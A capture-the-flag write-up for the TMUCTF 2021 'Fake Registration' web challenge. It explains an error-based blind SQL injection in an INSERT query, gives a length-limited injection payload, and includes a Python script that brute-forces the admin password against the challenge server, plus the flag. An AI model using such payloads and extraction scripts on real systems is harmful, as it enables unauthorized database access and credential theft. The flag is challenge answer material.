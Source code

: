 # Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
In this challenge, we are given a registration page with the [server-side code]((https://github.com/TMUCTF/TMUCTF-2021/blob/main/Web/Fake%20Registration/Challenge%20Files/challenge.zip)).
Open `app.py`. We see that the flag is the admin password.
In addition, the username and password entered by a user is stored in the database with an `insert` query.
Since this query is not written securely, it is possible to inject SQL commands through it.
As can be seen in the code, the length of each of the username and password fields is limited to 67.
Given this limitation, we try to obtain the correct payloads to extract information from the database.
The following payload, in addition to meeting the length limit, can help us to extract the admin password:
```
',(SELECT 1 FROM users WHERE id=1 AND substr(password,1,1)='T'))--
```
By entering this payload in the username field, the following message will be displayed to us:
<p align="center">
  <img src="Writeup Files/1.png">
</p>

As shown in this figure, the `UNIQUE constraint failed: users.username` error is shown.
So the character "T" is the correct value of the first character of the admin password.

If we run the above payload with any other character, the `NOT NULL constraint failed: users.password` error is displayed, which indicates that the character is incorrect (the character leads to an empty value for the password field).
Therefore, this payload can be run for different characters and finally, the admin password, which is the flag, is obtained.
The complete script for solving the challenge is as follows (also available in [solve.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Web/Fake%20Registration/Writeup%20Files/solve.py)).
```python
import requests

flag = []
for i in range(1, 69):
    for j in range(32, 127):
        payload = f"',(SELECT 1 FROM users WHERE id=1 AND substr(password,{str(i)},1)='{chr(j)}'))--"
        response = requests.post("http://130.185.123.246/register", data = {"username": payload, "password": "test"}, verify=False)
        if ("UNIQUE" in response.text):
            flag.append(chr(j))
            print(chr(j))
print("flag:", ''.join(flag))
```
The flag:
```
TMUCTF{P455w0rd5_mu57_b3_l0n6_4nd_c0mpl3x_l1k3_2MWn&p#FmjShTZXfAg:)}
```
